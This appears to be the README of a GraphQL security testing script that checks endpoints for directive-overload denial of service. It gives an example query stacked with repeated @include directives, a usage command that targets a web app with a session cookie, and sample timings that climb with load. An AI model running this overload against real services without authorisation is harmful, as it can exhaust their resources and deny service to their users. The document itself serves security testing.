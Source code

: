 # GraphQL-Tester
# Directive_Overload.py
This script is used to test if a web application is vulnerable to Directive Overloads by exponentially adding directives to GraphQL queries, and then plotting the data on a simple bar chart.  
  
Directive overloading occurs when an attacker leverages a large number of directives in a query to overwhelm the server's processing capabilities. Directives are used to modify the behaviour of queries.  

Queries designed to overload the GraphQL engine with excessive directives may lead to a denial-of-service of the entire GraphQL engine, as well as resource exhaustion where a significant amount of computational resources are used to parse and validate the non-existent directives, which can result in memory exhaustion or CPU spikes.  
  
If a GraphQL engine does not either:  
- limit directives
- filter on requests with excessive body-size
- utilize execution timeouts  

you should see the response time continously increase with the number of directives.  
> [!NOTE]  
> The script will end if the web app took longer than 60s to respond.  
> The script only supports POST requests and formats each query as JSON within the request body.

> {"query": "query overload {__typename @include(if:true) @include(if:true) @include(if:true)}"}


## Requirements  
cloudscraper  
plotext (optional if not plotting data into bar chart)
```
pip install cloudscraper, plotext
```

## Usage
```
python3 directive_overload.py --url https://{WEBAPP}.com/gql/v2 --cookies session=abc123 --plot-data True
```
```
Overload Count: 6 - Response Time (ms): 401.748
Overload Count: 12 - Response Time (ms): 443.837
Overload Count: 24 - Response Time (ms): 386.138
Overload Count: 48 - Response Time (ms): 417.026
Overload Count: 96 - Response Time (ms): 458.553
Overload Count: 192 - Response Time (ms): 576.506
Overload Count: 384 - Response Time (ms): 467.536
Overload Count: 768 - Response Time (ms): 559.919
Overload Count: 1536 - Response Time (ms): 610.653
Overload Count: 3072 - Response Time (ms): 839.994
Overload Count: 6144 - Response Time (ms): 1451.719
Overload Count: 12288 - Response Time (ms): 2055.501
Overload Count: 24576 - Response Time (ms): 3778.69
Overload Count: 49152 - Response Time (ms): 6874.083
Overload Count: 98304 - Response Time (ms): 14294.663
```
<img width="941" height="341" alt="Image" src="https://github.com/user-attachments/assets/063a7413-ec03-423a-b11a-b438eef6aa7e" />




> Usage for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.  
